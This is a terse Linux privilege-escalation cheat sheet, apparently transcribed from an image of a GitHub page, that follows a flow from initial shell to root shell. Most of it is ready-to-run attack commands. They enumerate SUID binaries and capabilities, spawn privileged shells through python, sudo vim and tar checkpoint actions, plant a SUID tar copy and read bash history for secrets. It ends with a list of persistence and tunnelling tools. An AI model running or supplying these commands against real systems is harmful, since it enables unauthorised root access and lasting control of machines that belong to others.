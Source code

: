 
INPUT: Shell
PROCESS:
- Stablish Shell
- Privilege Escalation
- Maintain Access
TOOLS
- https://gtfobins.github.io/
OUPUT: 
- root shell



## Privilege Escalation
getcap -r / 2>/dev/null



[SUID] find / -perm /4000 2>/dev/null
    - [python] <python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'>
[sudo] <id; sudo -l; sudo -V>
- [vim] <sudo vim -c ':!/bin/sh'>
[WebServer]:
- [python3]: python3 module <python3 -m http.server>
[Bash]  
- [History] <cat .bash_history>
[vsftpd]
- !/bin/bash
[tar]    
    <sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh>
    <sudo install -m =xs $(which tar)
    ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh>

find / -type f -user root -perm -u=s 2>/dev/null
find / -perm -u=s -type f 2>/dev/null

## Maintain Access
- PowerSploit
- Weewly
- dns2tcp
